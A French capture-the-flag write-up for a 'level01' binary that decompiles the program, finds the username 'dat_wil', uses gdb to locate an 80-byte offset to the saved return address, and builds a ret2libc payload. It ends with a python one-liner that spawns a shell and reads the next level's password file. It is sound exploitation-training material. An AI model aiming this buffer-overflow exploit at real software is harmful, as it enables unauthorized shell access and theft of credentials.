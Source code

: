 # Level 1

On commence par décompiler le code. On observe différentes choses intéressantes. On remarque que le programme attend 2 entrées. 

```C
fgets(a_user_name, 0x100, _reloc.stdin);
fgets(auStack84, 100, _reloc.stdin);

printf("Enter Username: ");
puts("Enter Password: ");
```

La fonction `fgets` est appelée 2 fois, on devra donc saisir 2 arguments en entrée standard.

Notre programme attend un `username` et un `password`. 
La vérification du `username` se fait dans la fonction `verify_user_name`.

```C
printf("Enter Username: ");
fgets(a_user_name, 0x100, _reloc.stdin);
iStack20 = verify_user_name();
```

Le code décompilé de cette fonction est assez incompréhensible. On observe une chaine de caractères dans le code.

```C
pcVar3 = (code *)"dat_wil";
```

On suppose que l'entrée attendue pour le `username` est `dat_wil`. On peut vérifier cela en rentrant cet `input` dans notre programme.

```
> ./level01
[...]
Enter Username: test_username
verifying username....

nope, incorrect username...
> ./level01
[...]
Enter Username: dat_wil
verifying username....

Enter Password:
```
Notre hypothèse est vérifiée, notre programme attend `dat_wil` comme `username`.

Pour le `password`, cela semble plus complexe. En effet, le programme semble renvoyer dans tout les cas `nope, incorrect password ...\n`.

```C
if (iStack20 == 0) {
	puts("Enter Password: ");
	fgets(auStack84, 100, _reloc.stdin);
	iStack20 = verify_user_pass((char *)auStack84);
	if ((iStack20 == 0) || (iStack20 != 0)) {
		puts("nope, incorrect password...\n");
		uVar1 = 1;
	}
	else {
		uVar1 = 0;
	}
}
```

On voit qu'au moment de la vérification du `password`, une fonction `verify_user_pass` est appelée. 

Le code décompilé de cette fonction n'est pas lisible. On voit seulement une chaine de caractères en clair dans le code.

```C
puVar2 = (uint8_t *)"admin";
```

En essayant de mettre `admin` comme `password`, on obtient toujours le même résultat, à savoir `nope, incorrect password...`.

La fonction `fgets` nous permet de saisir notre `password`.
On observe que notre `input` sera stocké dans un `buffer` de `16` octets et que `100` caractères seront lus.

```C
undefined4 auStack84 [16];
fgets(auStack84, 100, _reloc.stdin);
```

Nous allons afficher la `stack` après le `call` à `fgets` lorsque nous avons saisis un `password` pour voir ce qu'il se passe.

```
> gdb ./level01
> (gdb) disass main 
[...]
 	0x08048574 <+164>:	call   0x8048370 <fgets@plt>
	0x08048579 <+169>:	lea    0x1c(%esp),%eax
   	0x0804857d <+173>:	mov    %eax,(%esp)
   	0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
[...]
> (gdb) b *0x08048580
[...]
> (gdb) r 
[...]
Enter Username: dat_wil
[...]
Enter Password:
AAAA

Breakpoint 1, 0x08048580 in main ()
> (gdb) x $esp
0xffffd680:	0xffffd69c
> (gdb) x $ebp+0x04
0xffffd6ec:	0xf7e45513
> (gdb) x/30wx $esp
0xffffd680:	0xffffd69c	0x00000064	0xf7fcfac0	0x00000001
		      ^
			  adresse du buffer
0xffffd690:	0xffffd8ac	0x0000002f	0xffffd6ec	0x41414141
												  ^
												  AAAA
0xffffd6a0:	0x0000000a	0x00000000	0x00000000	0x00000000
0xffffd6b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6d0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6e0:	0xf7fceff4	0x00000000	0x00000000	0xf7e45513
												  ^
												  eip
0xffffd6f0:	0x00000001	0xffffd784
```

On observe plusieurs choses très intéressantes. Tout d'abord, on a `break` après le `fgets` contenant notre `input` `password`. 
Nous avons mis `AAAA` afin de voir où ils sont copiés pour observer notre `buffer` dans la `stack`.
L'adresse de `eip` est stockée à `ebp+0x04`.
L'adresse du début du `buffer` est située à l'adresse pointée par `esp`. C'est l'argument de la fonction `fgets`.
Nous avons visualisé l'adresse de notre `buffer` : `0xffffd69c` ainsi que celle de `eip` : `0xffffd6ec`. 

Pour connaître le nombre de caractères necessaires afin d'écraser `eip`, nous pouvons effectuer ce calcul :

```
nombre_de_caractères = adresse_eip - adresse_buffer
                     = 0xffffd6ec - 0xffffd69c
                     = 0x50
                     = 80 (base 10)
```

Il faudra alors mettre `80` caractères pour écraser `eip`. Nous avons vu précédement que la fonction `fgets` lisait `100` caractères. En mettant `80` caractères, nous pourrons donc écraser `eip`.

Notre programme n'exécute pas de `shell` et nous pouvons écraser `eip`. L'exploit `Ret2libc` semble réalisable.
Pour ce faire, nous allons construire notre exploit de cette façon : 

```
[username_valide] + [80 caractères] + [adresse de system] + [adresse_retour_system] + [adresse_bin_sh]
```

Trouvons maintenant l'adresse `system` et de `bin/sh`. 

```
> (gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
> (gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
[...]
```
Nous pouvons maintenant construire notre payload. 

```
[dat_wil\n] + [A*80] + [\xd0\xae\xe6\xf7] + [DAMN] + [\xec\x97\xf8\xf7]

python -c 'print "dat_wil\n" + "A"*80 + "\xd0\xae\xe6\xf7" + "DAMN" + "\xec\x97\xf8\xf7"' > /tmp/hack01
cat /tmp/hack01 - | ./level01
whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```